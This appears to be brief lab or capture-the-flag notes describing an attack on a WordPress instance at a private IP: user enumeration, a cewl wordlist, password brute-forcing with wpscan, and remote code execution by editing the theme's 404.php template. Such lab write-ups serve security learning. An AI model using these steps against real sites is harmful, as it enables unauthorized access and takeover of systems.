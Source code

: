 - We find a wordpress instance and more users in http://10.10.110.100:65000/wordpress/index.php/meet-the-team/

- We use cewl to create a wordlist in all links found
	`cewl <url> -w wordlist.txt

- Found credentials by brute forcing with wpscan
	`wpscan --url http://10.10.110.100:65000/wordpress -U ../users -P wordlist.txt`

- Edit twentynineteen theme (404 template) and get RCE 
	http://10.10.110.100:65000/wordpress/wp-content/themes/twentynineteen/404.php?0=id)